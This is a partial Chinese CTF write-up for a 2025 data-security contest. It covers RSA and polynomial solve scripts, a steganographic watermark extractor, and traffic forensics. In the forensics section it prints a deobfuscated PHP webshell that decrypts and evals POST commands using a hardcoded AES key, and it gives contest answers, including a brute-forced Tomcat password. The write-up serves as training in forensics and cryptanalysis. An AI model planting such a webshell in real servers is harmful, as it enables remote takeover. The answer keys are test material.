# 2025年江西省“天工杯”数据安全管理职业技能竞赛线上赛wp（部分）-先知社区

> **来源**: https://xz.aliyun.com/news/18869  
> **文章ID**: 18869

---

# 数据安全题

## 1、解压的密码

小王需要将一份秘密的文件发给小李，为了确保文件的安全，他使用了密码对文件进行加密，为了确保文件安全，每次加密的密码都会进行变更，密码通过一个双方约定好的方法进行了编码，并通过聊天软件发送给对方，已知其中一个解压密码编码后为N0MydWZ1d2lURU5CdUdWVUhvbTJTZQ==，请分析出原始的解压密码并进行提交





## 2、解压的密码2

```
from secret import password
from Crypto.Util.number import getPrime,inverse,bytes_to_long,long_to_bytes
from sympy import isprime


m = bytes_to_long(password)


p=getPrime(1024)
i=0
while True:
    i = i + 1
    q = p * 7 + i
    if isprime(q) :
        break
r=getPrime(1024)


n= p * q * r
e = 65537
c = pow(m,e,n)
hint = pow(p,3,n)


print(c)
print(e)
print(n)
print(hint)


#c=13889918448818668480436262232519614803420347627229545843815170814251411233504391116170809594646201205899291161828619796260433686739550749708197548876341990238318778349148670238311966917718764076339401287640467992200541622291291661469888634363851507258276302226988600361159239568826266872386542895007840407117674688553975904256750288024343736645239339403220835334396458671524717385722232243561228454377278674240349674528478834066032318527727289313618828341028787389050300929953483277123607458374555670787850784423621601413360143846657061765662801070852951290843662178513285162763700339323694302081615691175675528783563380761324419718670100500079044935809531439456959504720067317148713115588166277523435102798441646426615985769989824524896256195735173723295700221600775251195580735046638592295618457509722329790447678279819680208180500619739713910277560071878331797949219520898527045436922876067140629995192740481881593382871948
#e=65537
#n=21568519185152131261045553229889752784950410221869932578527465595935670193671033936128143936459411148090468377621668758046870835057943098458940812924398818148180032426000596452643850838852184816144933326444621994407534757904709064191688842962427426157729022947199784746515183668733359423283801492681529262971224021429626998079719356123342440004831413987683772647266607538473323949455826291548367100798150273784946539703992227545974140293628412362391084380811839031968120938313850538135810463357991472553763881985212273440108513428976735605761969561121812056038578181094897754034605993300505249384816437205023333220534416793340068245074322084821098027030735293296654655208869553957360458875673272325113363354181945205232908106781891884549996076243105199019974250614018326258343385004982829838378023962448998405295967127446873555818413833846910327712561926120555487209941497628606610326854956842674095507568002887769628460918703
#hint=2549824231725053184487000950025196872832297963257470268987227139743401083134500719665650818321309990169156124538592271162043910616070142837628710398905939134848704709866281927474996841382633789107751247283073908228753283259102731359640892504995378648822430339733037256273213924524634360035104214746579883620568676712273829670289084928923065846552460013292186793615232567025417820996423777999513555374585528139188617646513271486560628838969470934212408664941876761198048285327947783314805040986339275153757027681937109631161793943818247532772756525662097479094044062077557441947828912716624094955516425368749987027029300915956224729603857830526137844296735824339205752026621635322303561593709902380855139669770053692569394197929200772416185094463233726557382376975012064431833890434804235878722682982344550868804120026751089734666594239080528222778059366508826370555325694329606566667592369031778957193048721283736964271601947
```

```
from Crypto.Util.number import long_to_bytes
import gmpy2
from sympy import isprime

c = 13889918448818668480436262232519614803420347627229545843815170814251411233504391116170809594646201205899291161828619796260433686739550749708197548876341990238318778349148670238311966917718764076339401287640467992200541622291291661469888634363851507258276302226988600361159239568826266872386542895007840407117674688553975904256750288024343736645239339403220835334396458671524717385722232243561228454377278674240349674528478834066032318527727289313618828341028787389050300929953483277123607458374555670787850784423621601413360143846657061765662801070852951290843662178513285162763700339323694302081615691175675528783563380761324419718670100500079044935809531439456959504720067317148713115588166277523435102798441646426615985769989824524896256195735173723295700221600775251195580735046638592295618457509722329790447678279819680208180500619739713910277560071878331797949219520898527045436922876067140629995192740481881593382871948
n = 21568519185152131261045553229889752784950410221869932578527465595935670193671033936128143936459411148090468377621668758046870835057943098458940812924398818148180032426000596452643850838852184816144933326444621994407534757904709064191688842962427426157729022947199784746515183668733359423283801492681529262971224021429626998079719356123342440004831413987683772647266607538473323949455826291548367100798150273784946539703992227545974140293628412362391084380811839031968120938313850538135810463357991472553763881985212273440108513428976735605761969561121812056038578181094897754034605993300505249384816437205023333220534416793340068245074322084821098027030735293296654655208869553957360458875673272325113363354181945205232908106781891884549996076243105199019974250614018326258343385004982829838378023962448998405295967127446873555818413833846910327712561926120555487209941497628606610326854956842674095507568002887769628460918703
hint = 2549824231725053184487000950025196872832297963257470268987227139743401083134500719665650818321309990169156124538592271162043910616070142837628710398905939134848704709866281927474996841382633789107751247283073908228753283259102731359640892504995378648822430339733037256273213924524634360035104214746579883620568676712273829670289084928923065846552460013292186793615232567025417820996423777999513555374585528139188617646513271486560628838969470934212408664941876761198048285327947783314805040986339275153757027681937109631161793943818247532772756525662097479094044062077557441947828912716624094955516425368749987027029300915956224729603857830526137844296735824339205752026621635322303561593709902380855139669770053692569394197929200772416185094463233726557382376975012064431833890434804235878722682982344550868804120026751089734666594239080528222778059366508826370555325694329606566667592369031778957193048721283736964271601947
e = 65537

# 步骤1：从hint中恢复p
p = gmpy2.iroot(hint, 3)[0]
assert pow(p, 3) == hint  # 确认精确
print("p =", p)

# 步骤2：恢复q
# 计算n_p = n / p
n_p = n // p
i = 0
while True:
    i += 1
    q_candidate = 7 * p + i
    if n_p % q_candidate == 0:
        q = q_candidate
        break
# 验证q是素数（可选，但应该满足）
assert isprime(q)
print("q =", q)

# 步骤3：恢复r
r = n // (p * q)
assert p * q * r == n
print("r =", r)

# 步骤4：计算phi(n)和私钥d
phi = (p-1) * (q-1) * (r-1)
d = gmpy2.invert(e, phi)
m = pow(c, d, n)
password = long_to_bytes(m)
print("Password:", password.decode())
```

Password: f8be83156f83438cb172651ec3c5e168

## 3、numberleak

小明是数据安全工程师，他设计了一套基于多项式加密的系统，用于守护一份极其重要的数据。密钥就是多项式的根，一旦被算出，重要数据就会泄露。然而，一次针对服务器的APT攻击（高级持续性威胁），导致存储这些加密多项式本身的代码被黑客窃取。根据这些多项式，你能否找出它们的根，并计算一个指定的值来验证这个安全漏洞。挑战成功，你将获得一份神秘数据作为奖励！ nc 111.74.9.131 18060

```
from pwn import *
import re

def parse_poly(s, p):
    # Example: "f = 123 * x^5 + 456 * x^4 + 789 * x^3 + 101 * x^2 + 202 * x + 303 (mod p)"
    parts = s.split(' + ')
    # First part: "f = 123 * x^5"
    first = parts[0]
    f0 = int(first.split(' * ')[0].split(' = ')[1])
    c = int(first.split('^')[-1])   # degree
    coeffs = [0]*(c+1)
    coeffs[0] = f0
    for i in range(1, len(parts)):
        part = parts[i]
        if 'x' in part:
            # e.g., "456 * x^4"
            num, exp_part = part.split(' * ')
            exp = int(exp_part.split('^')[-1])
            idx = c - exp   # because coefficient for x^(c - idx) is at f[idx]
            coeffs[idx] = int(num) % p
        else:
            # constant term: e.g., "303 (mod p)"
            num = part.split(' ')[0]
            coeffs[c] = int(num) % p
    return coeffs

def calculate_function(f, p, numbers):
    c = len(f) - 1
    f0 = f[0]
    inv_f0 = pow(f0, p-2, p)
    total = 0
    for k in numbers:
        j = c + 1 - k
        if j < 0 or j > c:
            continue   # invalid, but assume valid
        term = f[j] * inv_f0 % p
        if j % 2 == 1:
            term = (-term) % p
        total = (total + term) % p
    return total

conn = remote('111.74.9.131', 18060)   # replace with actual connection details

conn.recvuntil("Welcome")
for round in range(100):
    line = conn.recvuntil("(mod")   # read until the modulus
    mod_line = conn.recvline().decode().strip()
    p = int(mod_line.split()[-1].strip(')'))
    poly_str = line.decode()
    # Parse the polynomial
    f_coeffs = parse_poly(poly_str, p)
    # Next line: "give me Vx + Vy + ..."
    query_line = conn.recvline().decode().strip()
    numbers = list(map(int, re.findall(r'V(\d+)', query_line)))
    ans = calculate_function(f_coeffs, p, numbers)
    conn.sendline(hex(ans)[2:])   # send as hex without '0x'

conn.interactive()
```



## 4、数据安全4

近期，某公司的客户联系表不慎泄露至公网，造成了严重损失。为追查泄露源头，公司决定借助内部自研的 IM 截图工具的特殊功能：该工具在每张截图中都会隐写截取者的姓名和工号信息。现已掌握该隐写机制的大致逻辑，请你协助还原截图来源，并提交结果 `md5(姓名:工号)`。

```
import struct
import zlib
import random
import numpy as np
from PIL import Image
from Crypto.Cipher import AES
from hashlib import sha256
from datetime import datetime

MAGIC = b"LSB3"
REP = 3
SALT = "perm-v1"

def _prng_bytes_from_ts(ts: int, n: int) -> bytes:
    rng = random.Random(ts)
    return bytes(rng.getrandbits(8) for _ in range(n))

def _aes_ctr_decrypt(ciphertext: bytes, ts: int) -> bytes:
    key = _prng_bytes_from_ts(ts, 16)
    nonce = _prng_bytes_from_ts(ts, 8)
    return AES.new(key, AES.MODE_CTR, nonce=nonce).decrypt(ciphertext)

def _bits_to_bytes(bits):
    bytes_list = []
    for i in range(0, len(bits), 8):
        byte = 0
        for j in range(8):
            if i + j < len(bits):
                byte = (byte << 1) | bits[i + j]
        bytes_list.append(byte)
    return bytes(bytes_list)

def _extract_repeated_bits(carrier_bits, rep):
    extracted_bits = []
    for i in range(0, len(carrier_bits), rep):
        chunk = carrier_bits[i:i+rep]
        if len(chunk) > 0:
            bit_value = 1 if sum(chunk) > len(chunk) // 2 else 0
            extracted_bits.append(bit_value)
    return extracted_bits

def _perm_indices(ts: int, H: int, W: int, salt: str = SALT) -> np.ndarray:
    N = H * W
    seed_mat = f"perm:{salt}|ts:{ts}|{H}x{W}".encode()
    seed = int.from_bytes(sha256(seed_mat).digest()[:8], "big")
    rng = np.random.default_rng(seed)
    return rng.permutation(N)

def extract_watermark(image_path, timestamp):
    im = Image.open(image_path).convert("RGB")
    arr = np.array(im, dtype=np.uint8)
    H, W, _ = arr.shape
    blue_channel = arr[:, :, 2].reshape(-1)
    
    lsb_bits = (blue_channel & 1).astype(np.uint8)
    perm = _perm_indices(timestamp, H, W)
    
    header_size = 32 * 8 * REP 
    header_indices = perm[:header_size]
    header_bits = lsb_bits[header_indices]
    

    header_bits_clean = _extract_repeated_bits(header_bits, REP)
    header_bytes = _bits_to_bytes(header_bits_clean)
    

    if header_bytes[:4] != MAGIC:
        return None
    
    data_length = struct.unpack(">I", header_bytes[4:8])[0]
    total_bits_needed = (8 + data_length + 4) * 8 * REP  
    all_indices = perm[:total_bits_needed]
    all_bits = lsb_bits[all_indices]
    
    all_bits_clean = _extract_repeated_bits(all_bits, REP)
    all_bytes = _bits_to_bytes(all_bits_clean)
    magic = all_bytes[:4]
    clen = struct.unpack(">I", all_bytes[4:8])[0]
    ciphertext = all_bytes[8:8+clen]
    stored_crc = struct.unpack(">I", all_bytes[8+clen:12+clen])[0]
    

    calculated_crc = zlib.crc32(ciphertext) & 0xFFFFFFFF
    if stored_crc != calculated_crc:
        return None
    
    try:
        plaintext = _aes_ctr_decrypt(ciphertext, timestamp)
        return plaintext.decode('utf-8')
    except:
        return None

def dec(image_path, start_ts, end_ts):
    start_ts = int(start_ts)
    end_ts = int(end_ts)
    
    for ts in range(start_ts, end_ts + 1):        
        result = extract_watermark(image_path, ts)
        if result:
            print(result) 
    
    return None, None, None

if __name__ == "__main__":
    name, eid, timestamp = dec("C:\Users\CTF\Downloads\1757561872M7UmmV6BUu0K\leak.png", 1757054010, 1757054090)
```





## 5、数据安全5

某实验室办公人员的电脑被黑客入侵，窃取了工作人员登录验证的程序并偷偷抓取了工作人员登录验证过程的流量包，请你通过对登录程序进行分析，从流量包中分析出黑客窃取到的工作人员的验证ID，并提交验证ID。

1、逆向ID 发现秘钥和SM4算法  




查找流量包加密流量数据



通过cyberchef解密得



# 数据分析题

## 题目一：

某公司的内网系统被植入了webshell，导致某个核心数据文件被黑客窃取。请你根据服务器上捕获的流量分析黑客的攻击路径。回答如下问题： 题目1: 攻击者最终使用的webshell的文件名是？ 题目2: 攻击者webshell流量加密的密钥是？ 题目3: 攻击者窃取敏感文件所执行的命令的MD5值是？ 题目附件在PHPIRS1题目中，题目1至题目3的答案请分别提交在PHPIRS1至PHPIRS3题目中

### 1、PHPRIS1

前面，通过shell。php写了 一个混淆的webshell。名字为en.php



### 2、PHPRIS2

反混淆后得到原始代码key为'aa90999ce3aa3fc8413a442d7c39ee04'

```
(create_function)(...str_getcsv(,"error_reporting(0);
function encrypt_data($data, $key) {
$iv= openssl_random_pseudo_bytes(16);
$encrypted = openssl_encrypt($data, 'AES-256-CBC', $key, 0, $iv);
return base64_encode($iv . $encrypted);
}

function decrypt_data($data, $key) {
$data = base64_decode($data);
$iv = substr($data, 0, 16);
$encrypted = substr($data, 16);
return openssl_decrypt($encrypted, 'AES-256-CBC', $key, 0, $iv);
}

$secret_key = 'aa90999ce3aa3fc8413a442d7c39ee04';

if (isset($_POST['cmd'])) {
try {
$decrypted_cmd = decrypt_data($_POST['cmd'], $secret_key);

if ($decrypted_cmd) {
ob_start();
ini_set('display_errors', 0);
ini_set('log_errors', 0);

$result = eval($decrypted_cmd);

if ($result !== null) {
echo $result;
}

$output = ob_get_contents();
```

## 题目二：

题目1.攻击者对Tomcat管理后台进行暴力破解时的失败尝试次数是多少？最终成功登录所使用的Tomcat管理员口令是什么？提交格式：{失败次数}:{Tomcat口令}，例如：10:admin 题目2. 经分析确认攻击者已获取数据库访问权限，请给出其所窃取的数据库用户口令。 题目3. 攻击者查询了数据库中的用户表，请指出第三位用户的手机号。 题目附件在TOMCAT1题目中，题目1至题目3的答案请分别提交在TOMCAT1至TOMCAT3题目中

### 1、tomcat1



可以看到，认证失败一共84个包，剔除两个132的包。就是82个包。所以，爆破次数为82.

最终状态码为302的包，只有2个。直接追踪进去看一眼，





得到了basic认证的用户名和密码。

{82:1234567890}

### 2、tomcat2


